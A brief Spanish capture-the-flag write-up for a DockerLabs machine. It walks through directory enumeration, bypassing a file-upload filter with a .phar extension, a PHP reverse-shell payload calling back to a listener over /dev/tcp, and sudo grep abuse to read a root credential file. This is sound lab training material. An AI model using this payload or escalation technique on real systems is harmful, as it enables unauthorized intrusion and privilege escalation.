

# DockerLabs

*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*

Con Gobuster se encuentra dir *http://172.17.0.2/machine.php*

No deja subir archivos que no sean .zip, pero probamos con otras extensiones de php para intentar lanzar una revshell
Usaremos BURPSUITE con un ataque sniper con las distintas extensiones:

Vemos que la respuesta del archivo subido con extensión *.phar* es exitosa.

Subimos un .phar con el código
`<?php exec("bash -c 'bash -i >&/dev/tcp/172.17.0.1/4444 0>&1'"); ?>`

Ponemos a la escucha   un `nc -nvlp 4444`
**www-data**

## Escalada

- (root) NOPASSWD: /usr/bin/cut
(root) NOPASSWD: /usr/bin/grep*

En /opt vemos una *nota.txt*
`Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.`

## Gtfobins

`LFILE=/root/clave.txt`
`sudo -u root grep '' $LFILE`
passwd -> **dockerlabsmolamogollon123**
`su root`
**root**
